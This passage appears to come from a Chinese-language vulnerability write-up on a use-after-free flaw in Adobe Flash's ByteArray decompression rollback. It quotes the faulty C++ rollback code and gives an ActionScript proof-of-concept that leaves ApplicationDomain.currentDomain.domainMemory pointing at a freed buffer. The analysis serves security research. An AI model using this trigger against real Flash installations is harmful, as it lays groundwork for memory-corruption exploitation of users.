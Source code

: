 ```
        // 2) put the original data back.
m_buffer->array    = origData;
m_buffer->length   = origLen;
m_buffer->capacity = origCap;
m_position         = origPos;
SetCopyOnWriteOwner(origCopyOnWriteOwner);
origBuffer = NULL; // release ref before throwing
toplevel()->throwIOError(kCompressedDataError);
    }

```

但是请注意：这里**并没有任何操作通知使用者新的缓冲区已经被释放！**因此，即使由于解压缩操作失败而导致新缓冲区被释放，ApplicationDomain.currentDomain.domainMemory 还是会保留新缓冲区的一个引用。我们稍后会间接引用该悬垂指针，因此这是一个use-after-free（UAF）漏洞。

0x03 触发UAF
=====

可以通过以下步骤来重现产生悬垂指针的情况：先向ByteArray添加数据，再用zlib压缩，然后在0x200偏移位置用垃圾数据覆盖掉原来的压缩数据，然后将此ByteArray指派给ApplicationDomain.currentDomain.domainMemory以创建ByteArray的使用者，最后调用ByteArray的uncompress()方法。

为什么要从从0x200位置开始覆盖压缩数据呢？这是因为在ByteArray的开始位置保留一些合法的压缩数据可以保证第一次对inflate()的调用成功；而且这样ByteArray::Write()方法也会正常创建Grower类的实例，该实例会为保存解压缩的数据增加目标缓冲区的长度，并通知所有的使用者可以使用新增长的缓冲区了。

循环中，第二次调用“inflate()和Write()”时，inflate()函数会尝试解压缩我们构造的垃圾数据，因此一定会失败。然后ByteArray::UncompressViaZlibVariant()就会执行回滚操作，释放掉新增加的缓冲区，但同时却不会通知ByteArray的所有使用者，所以就产生了悬垂指针。

下面的ActionScript代码片段可以重现该漏洞，使ApplicationDomain.currentDomain.domainMemory引用已释放缓冲区：

```
this.byte_array = new ByteArray();
this.byte_array.endian = Endian.LITTLE_ENDIAN;
this.byte_array.position = 0;
/* Initialize the ByteArray with some data */
while (count < 0x2000 / 4){
this.byte_array.writeUnsignedInt(0xfeedface + count);
count++;
}

/* Compress it with zlib */
this.byte_array.compress();

/* Overwrite the compressed data with junk, starting at offset 0x200 */
this.byte_array.position = 0x200;
while (pos < byte_array.length){
this.byte_array.writeByte(pos);
pos++;
}

/* Create a subscriber for that ByteArray */
ApplicationDomain.currentDomain.domainMemory = this.byte_array;

/* Trigger the bug! ByteArray::UncompressViaZlibVariant will leave ApplicationDomain.currentDomain.domainMemory
pointing to a buffer that is freed when the decompression fails. */
try{
this.byte_array.uncompress();
} catch(error:Error){
}

```
